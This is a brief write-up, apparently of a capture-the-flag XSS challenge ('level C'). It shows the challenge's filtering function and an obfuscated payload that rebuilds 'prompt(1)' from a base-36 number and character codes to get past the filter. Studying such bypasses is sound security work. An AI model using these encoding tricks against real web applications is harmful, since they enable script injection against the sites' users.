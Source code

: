 # level C

```js
function escape(input) {
    // in Soviet Russia...
    input = encodeURIComponent(input).replace(/'/g, '');
    // table flips you!
    input = input.replace(/prompt/g, 'alert');

    // ノ┬─┬ノ ︵ ( \o°o)\
    return '<script>' + input + '</script> ';
}        
```

The payload here is 

```js
eval((1558153217).toString(36).concat(String.fromCharCode(40)).concat(1).concat(String.fromCharCode(41)))
```

Here the value inside the eval function is is base_36 encoded we decode it with toString method giving us the value prompt and then 

then the following code produces "(1)", so everything concatenated becomes prompt(1).